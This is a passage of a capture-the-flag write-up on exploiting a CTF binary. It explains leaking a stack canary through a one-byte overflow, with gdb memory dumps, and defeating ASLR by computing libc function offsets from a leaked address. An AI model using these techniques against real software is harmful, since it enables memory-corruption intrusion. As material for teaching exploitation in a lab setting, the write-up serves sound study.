 In order to leak the canary we will need to send `0xa9` bytes worth of data. The first `0xa8` will be to fill up the `input` char array, and the last byte will be to overwrite the least significant byte of the stack canary. Let's take a look at the memory for a bit more detail:

```
gef➤  x/24g 0x7ffe80d6b4e0
0x7ffe80d6b4e0: 0x3832373533393531  0x00007fa279a33628
0x7ffe80d6b4f0: 0x0000000000400930  0x00007fa279686489
0x7ffe80d6b500: 0x00007ffe80d6b540  0x0000000000000001
0x7ffe80d6b510: 0x00007ffe80d6b540  0x0000000000601df8
0x7ffe80d6b520: 0x00007ffe80d6b688  0x0000000000400e1b
0x7ffe80d6b530: 0x0000000000000000  0x000000010000ffff
0x7ffe80d6b540: 0x00007ffe80d6b550  0x0000000000400e31
0x7ffe80d6b550: 0x0000000000000002  0x0000000000400e8d
0x7ffe80d6b560: 0x00007fa279dcd9a0  0x0000000000000000
0x7ffe80d6b570: 0x0000000000400e40  0x00000000004009a0
0x7ffe80d6b580: 0x00007ffe80d6b670  0x05345bfe35ee0700
0x7ffe80d6b590: 0x0000000000400e40  0x00007fa279664b97
```

here we can see our input `15935728` starts at `0x7ffe80d6b4e0`. `0xa8` bytes down the stack we can see the stack canary `0x05345bfe35ee0700` at `0x7ffe80d6b588` followed by the saved base pointer and return address. After the overflow this is what the memory looks like:

```
gef➤  x/24g 0x7ffe80d6b4e0
0x7ffe80d6b4e0: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b4f0: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b500: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b510: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b520: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b530: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b540: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b550: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b560: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b570: 0x3030303030303030  0x3030303030303030
0x7ffe80d6b580: 0x3030303030303030  0x05345bfe35ee0730
0x7ffe80d6b590: 0x0000000000400e40  0x00007fa279664b97
```

With that, we can leak the stack canary by printing our input.

The next step will be to defeat ASLR. ASLR is a mitigation that will essentially randomize the addresses sections of memory are in. This way when we run the program, we don't actually know where various things in memory are. While the addresses are randomized, the spacing between things are not. For instance in the libc (libc is where all of the standard functions like `puts`, `printf`, and `fgets` are stored most of the time) the address of `puts` and `system` will be different every time we run the program. However the offset between them will not be. So if we leak the address of `puts`, we can just add / subtract the offset to `system` and we will have the address of `system`. So we just need to leak a single address from a memory space (that we know what that memory address points to) in order to break ASLR in that region.


Let's take a look at all of the different memory regions in gdb with the `vmmap` command while the program is running:
```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000402000 0x0000000000000000 r-x /Hackery/csaw/svc
0x0000000000601000 0x0000000000602000 0x0000000000001000 r-- /Hackery/csaw/svc
0x0000000000602000 0x0000000000603000 0x0000000000002000 rw- /Hackery/csaw/svc
0x0000000000603000 0x0000000000635000 0x0000000000000000 rw- [heap]
0x00007ffff716c000 0x00007ffff7182000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libgcc_s.so.1
0x00007ffff7182000 0x00007ffff7381000 0x0000000000016000 --- /lib/x86_64-linux-gnu/libgcc_s.so.1
0x00007ffff7381000 0x00007ffff7382000 0x0000000000015000 rw- /lib/x86_64-linux-gnu/libgcc_s.so.1
0x00007ffff7382000 0x00007ffff748a000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libm-2.23.so
0x00007ffff748a000 0x00007ffff7689000 0x0000000000108000 --- /lib/x86_64-linux-gnu/libm-2.23.so
0x00007ffff7689000 0x00007ffff768a000 0x0000000000107000 r-- /lib/x86_64-linux-gnu/libm-2.23.so
```